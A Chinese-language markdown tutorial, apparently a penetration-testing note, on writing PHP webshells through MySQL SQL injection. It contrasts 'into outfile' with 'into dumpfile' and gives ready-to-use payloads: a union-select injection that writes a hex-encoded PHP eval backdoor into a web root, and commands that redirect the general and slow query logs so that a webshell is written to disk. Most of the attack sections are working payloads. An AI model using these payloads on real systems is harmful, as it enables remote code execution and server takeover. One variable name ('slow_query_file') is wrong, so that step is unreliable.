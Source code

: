 > into outfile和into dumpfile的区别
>
> * 导出的行数不一样。outfile函数可以导出（导出数据库数据，写入文件）多行数据；而dumpfile只能导出一行数据
> * 是否转义输出。outfile对导出内容中的\n等特殊字符进行了转义，并且在文件内容的末尾增加了一个新行；而dumpfile对文件内容是原意写入，未做任何转移和增加。所以基于此在UDF提权中一般使用dumpfile进行dll文件写入
> * 是否允许二进制文件。outfile后面不能接0x开头或者char转换以后的路径，只能是单引号路径。这个问题在php注入中很棘手，因为会自动将单引号转义成\',请千万注意；但dumpfile，后面的路径可以是单引号、0x、char转换的字符，但是路径中的斜杠是/而不是\。因为dumpfile允许写二进制文件

### 基于MySQL写入shell的方式

#### **基于文件写入函数`into outfile`和`into dumpfile`写入shell**

~~~sql
# 将一句话木马"<?php eval($_REQUEST[1]);?>"通过十六进制编码写入网站根目录
?id=-3')) union select 1,0x3c3f706870206576616c28245f524551554553545b315d293b3f3e,3 into outfile 'C:\\Users\\Administrator.WIN2012\\Desktop\\phpStudy\\WWW\\outfile.php' --+
~~~

> 如果存在无法写入的情况下：
> secure_file_priv 突破 注入中需要支持 SQL 执行环境，没有就需要借助 phpmyadmin 或能够直接连上对方数据库进行绕过

#### **基于全局日志的写入**

基于全局日志的写入方式，适用于`secure_file_priv`这个配置参数限制了文件写入函数into outfile或into dumpfile函数的使用，没有写权限。有root权限，能够执行sql语句，并且网站的绝对路径且具有写入权限。查看日志配置，关注日志监测是否开启，然后修改日志路径，来写入shell
~~~sql
# 查看全局日志配置，包括log日志的开启状态和日志文件存储位置
show variables like "%general%";
# 开启日志监测
set global general_log = on;
# 设置需要写入的路径
set global general_log_file = 'file path';
# 然后执行sql语句，mysql会将我们执行的语句记录到日志文件(上一步修改后的文件)中
select "<?php eval($_POST['shell']);?>";
# 结束后，再修改为原来的路径
set global general_log_file = '原来的路径';
# 关闭日志记录
set global general_log = off;
~~~

![在这里插入图片描述](.\SQL注入原理.assets\230ae102c2b59e2eae26ad9295415f84.png)

#### **基于慢查询日志的写入**

慢日志记录的是执行时间超过一定时间的语句，默认的执行时间为10秒，通常情况下执行sql语句时的执行时间一般不会超过10s，所以说慢日志文件应该是比较小的，而全局日志记录文件会记录大量数据，可能会影响我们写入的内容。

~~~sql
# 查询慢日志功能开启状态以及慢日志目录 
show variables like '%slow_query_log%';
# 查看服务器默认时间值方式
show global variables like '%long_query_time%';
# 开启慢日志功能
set global slow_query_log = 'ON';
# 设置慢日志路径
set global slow_query_file = 'file path';
# 写入shell
select '<?php eval($_REQUEST["a"]);?>' or sleep(11);
~~~
